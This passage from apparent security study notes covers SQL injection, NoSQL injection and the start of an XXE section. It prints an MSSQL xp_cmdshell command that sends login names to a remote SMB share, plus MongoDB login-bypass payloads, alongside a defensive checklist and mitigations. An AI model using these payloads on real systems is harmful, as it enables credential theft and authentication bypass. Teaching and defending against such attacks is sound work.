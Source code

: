 _MSSQL example (SMB share)_

```sql
EXEC xp_cmdshell 'bcp "SELECT name FROM master..syslogins"
      queryout "\\\\10.10.58.187\\logs\\out.txt" -c -T';
```

### 1.6  Useful SQLi Tools

- **sqlmap** – automated detection and exploitation
    
- **BBQSQL** – blind SQLi framework
    
- **SQLNinja** – MSSQL‑specific exploitation
    
- **JSQL Injection** – GUI multi‑DBMS injector
    

### 1.7  Defensive Checklist

1. _Prepared statements / stored procedures_
    
2. Strict server‑side input validation (allow‑list)
    
3. Least‑privilege database accounts
    
4. Positive security model in the WAF
    
5. Regular dependency patching and code review
    

---

## 2  NoSQL Injection

### MongoDB examples

_Operator injection_

```http
POST /login
user[$ne]=admin&pass[$ne]=anything
```

_Regex bypass_

```http
user=pedro&pass[$regex]=.*&remember=on
```

Mitigations are the same in spirit: parameterise queries, validate datatypes, and never pass raw JSON from users into the database driver.

---

## 3  XXE (XML External Entity) Injection

XXE exploits insecure XML parsers that resolve external entities.
